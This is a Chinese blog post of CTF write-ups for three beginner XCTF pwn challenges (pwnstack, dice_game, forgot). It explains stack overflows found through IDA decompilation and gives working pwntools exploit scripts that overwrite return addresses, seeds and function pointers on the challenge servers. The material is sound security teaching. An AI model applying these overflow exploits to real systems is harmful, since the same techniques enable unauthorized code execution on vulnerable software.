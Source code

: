 ```yaml
---
title: pwn 入门刷题
date: 2024-10-18 21:00:15
permalink: /pages/e76739/
author: 
  name: Cola
  link: https://the0n3.top
---
```

# pwn 入门刷题

攻防世界pwn题目

## pwnstack

下载拖到ida64里反编译

![0](https://the0n3.top/medias/00pwn/0.png)

进入到`vuln`函数，定义了一个160（0xa0）字节的缓冲区，存在一个`read`函数，会读取177（b1）个字节，导致栈溢出

![1](https://the0n3.top/medias/00pwn/1.png)

查看汇编代码，看到后门函数，函数地址放在缓冲区后覆盖栈的返回地址`0x400762`

![2](https://the0n3.top/medias/00pwn/2.png)

或者通过`shift+f12`找到`/bin/sh`字符串，再通过在`/bin/sh`地址上`ctrl+x`找到它的引用，也可以找到后门函数的定义

![3](https://the0n3.top/medias/00pwn/3.png)

![4](https://the0n3.top/medias/00pwn/4.png)

ctf wiki用一个很好的概念来理解栈的结构，如下

```txt
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

从图中可以看出，`s`变量一共可以传入的字节大小为`14`,如果超过的话，多出的就会到`saved ebp`中，根据我的查阅`saved ebp`保存的是`栈帧`，根据栈帧确定变量的返回值，`x86`中`saved ebp`的大小为`4个字节`，`x64`中`saved ebp`的大小为`8个字节`，最后的`retaddr`就是溢出的部分，我们可以控制`retaddr`的值，将其修改为我们想要执行函数的内存地址

看一下这题的文件类型，`64`位，所以`saved ebp`的大小为`8个字节`覆盖`saved ebp`，所以我们需要填充`0xa0+8=0xa8`个字节，然后，最后填入后门函数的地址`0x400762`

![5](https://the0n3.top/medias/00pwn/5.png)

最后发送`p64`函数包裹的数据，是为了让程序认为这是一个内存地址，不然接受的就是字符`0x400762`

编写exp：

```python
from pwn import *

# 本地调试
# p = process('./pwn2')
# 远程
p = remote('61.147.171.105', 53646)
payload = b'a' * (0xa0+8) + p64(0x400762)
p.sendline(payload)
p.interactive()
```

![6](https://the0n3.top/medias/00pwn/6.png)

远程可以打通，本地打不通，这是什么原因。把后门地址改成`0x400766`时，本地和远程都可以

## dice_game

ida64反编译，分析主函数，sub_A20，sub_B28等函数

![7](https://the0n3.top/medias/00pwn/7.png)

![8](https://the0n3.top/medias/00pwn/8.png)

![9](https://the0n3.top/medias/00pwn/9.png)

分析这三个函数大概可以知道，这是一个游戏，使用当前时间生成一个种子，调用sub_A20函数使用这个种子生成50个1-6之间的随机数，等待用户输入，如果50道全对，调用sub_B28函数读取flag

在ida里可以看到buf,seed在栈中，buf长度为55，seed长度为2，在0x10位置

![10](https://the0n3.top/medias/00pwn/10.png)

可以通过buf，覆盖seed，从而控制种子，再利用题目给的libc库里定义的rand函数，就可以生成与题目一样的随机数

```python
from pwn import *
from ctypes import * # 导入ctypes库，用于调用libc库中的函数
#from LibcSearcher import *
context.log_level = 'debug'  # 设置调试模式

r = remote('61.147.171.105',54885)
libc = cdll.LoadLibrary("libc.so.6")#利用题目给的libc库中的函数rand生成与题目一样的随机数。

payload= b'a'*(0x50-0x10)+p64(0)

r.sendafter('Welcome, let me know your name: ',payload)

a=[]

for i in range(50):
    a.append(libc.rand()%6+1)
print(a)

for i in a:
    r.recv()
    print(r.recv())
    r.sendline(str(i))

r.interactive()
```

![11](https://the0n3.top/medias/00pwn/11.png)


## forgot

检测一下，32位程序，没有栈保护

![12](https://the0n3.top/medias/00pwn/12.png)

反编译分析，定义了长度为32位字节的s，作为用户名来接收，可以随便输入。定义了v3，存入了几个函数的地址

定义了长度为32的v2，使用`scanf`函数接收，没有限制长度，存在栈溢出

![13](https://the0n3.top/medias/00pwn/13.png)

根据定义的v2,v3，发现缓冲区里可以使用v2溢出覆盖v3

![14](https://the0n3.top/medias/00pwn/14.png)

在程序的最后有一处动态函数调用

![15](https://the0n3.top/medias/00pwn/15.png)

`shift+f12`跟进引用，找到`cat flag`的函数`sub_80486CC`

![16](https://the0n3.top/medias/00pwn/16.png)

所以需要把`v3[--v5]`也就是`v3[1]`的地址覆盖为`sub_80486CC`函数的地址`0x80486CC`

在这个循环中，会对输入的每一位字符进行检测，如果符合就更改v5的值，进入下一层检测，跟着他的要求做要找到合适的email格式，以及函数地址的改变，题目会变得更难，直接在第一个检测里找到不符合的字符，使每一位都不符合，这样v5就不需要改变了。在检测结束就可以调用目标函数

![17](https://the0n3.top/medias/00pwn/17.png)

在第一个检测中，检查是否是小写字母、数字，或是特定的几个符号下划线、减号、加号、点，拿大写字母绕过就可以了

```c
_BOOL4 __cdecl sub_8048702(char a1)
{
  return a1 > 96 && a1 <= 122 || a1 > 47 && a1 <= 57 || a1 == 95 || a1 == 45 || a1 == 43 || a1 == 46;
}
```

编写exp

```python
from pwn import *

payload = b'A'*0x20 + p32(0x80486cc)
# p = process('./forgot')
p = remote('61.147.171.105', 61568)
p.sendlineafter('> ','test')
p.sendlineafter('> ',payload)
p.interactive()
```




参考：

- [BUUCTF-pwn-rip(第一个栈溢出) ](https://www.cnblogs.com/Junglezt/p/17871927.html)
- [攻防世界 pwnstack writeup](https://blog.csdn.net/m0_73605862/article/details/130919537)
- [dice_game--攻防世界](https://www.cnblogs.com/Mua2Uncle2blog/p/15505565.html)
- [攻防世界（PWN）forgot](https://blog.csdn.net/weixin_43876357/article/details/109028936)
- [攻防世界进阶区forgot](https://sphandsomejack.github.io/2020/02/17/forgot/)